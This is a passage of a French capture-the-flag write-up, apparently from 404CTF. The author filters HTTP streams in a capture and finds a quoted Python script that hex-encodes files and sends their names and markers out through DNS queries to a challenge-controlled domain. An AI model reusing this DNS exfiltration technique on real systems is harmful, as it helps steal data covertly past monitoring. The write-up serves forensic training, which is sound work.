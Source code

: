 Je peux alors observer le premier flux HTTP, et comme il ne correspond pas à ce que je cherche je clique sur `Filter Out This Stream`, et je recommence.

Après avoir filtré une demi-douzaine de flux, je trouve celui qui m'intéresse.

![script d'exfiltration](../images/agentcompromis_exfiltration.png)

Le code Python est le suivant:

```python
import binascii
import os
import dns.resolver
import time

def read_file(filename):
    with open(filename, "rb") as f:
        return binascii.hexlify(f.read())


def exfiltrate_file(filename):
    dns.resolver.resolve("never-gonna-give-you-up.hallebarde.404ctf.fr")
    time.sleep(0.1)
    dns.resolver.resolve(binascii.hexlify(filename.encode()).decode() + ".hallebarde.404ctf.fr")
    content = read_file(filename)
    time.sleep(0.1)
    dns.resolver.resolve("626567696E.hallebarde.404ctf.fr")
```